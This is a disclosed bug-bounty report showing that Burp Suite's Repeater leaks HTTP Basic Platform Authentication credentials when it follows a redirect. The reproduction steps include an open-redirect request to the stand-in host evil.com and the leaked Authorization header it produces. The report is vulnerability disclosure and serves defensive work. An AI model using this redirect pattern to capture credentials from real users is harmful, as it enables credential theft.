 # Leak of Platform Authentication credentials via Repeater

## Report Details
- **Report ID**: 302651
- **URL**: https://hackerone.com/reports/302651
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-01-05T13:30:10.984Z
- **Disclosed**: 2018-06-13T15:11:29.437Z

## Reporter
- **Username**: jupenur
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: portswigger

## Vulnerability Information
Burp Repeater leaks Platform Authentication (HTTP Basic) credentials when following redirections.

Steps to reproduce:

- Set up an open redirection on a site you control (`example.com`).
- Set up Platform Authentication for that same site. Use HTTP Basic auth and whatever credentials.
- Using Repeater, issue a request to the page with the open redirection:

```
GET /redirect.php?url=http://evil.com HTTP/1.1
Host: example.com

 
```

- Click on the `Follow redirection` button
- Observe, helpless, as your HTTP Basic credentials are sent to `evil.com`:

```
GET http://evil.com/ HTTP/1.1
Host: evil.com
Authorization: Basic dXNlcjpwYXNz


```

Note that there's nothing "unusual" about the steps to reproduce this, so it can easily happen completely by accident. On the attacker's side, exploiting this only requires logging any incoming `Authorization` headers.

## Impact

Burp Suite users may inadvertently send Platform Authentication credentials to unrelated third parties. This is fundamentally very sensitive information, making this a rather nasty leak.

## Attachments
No attachments
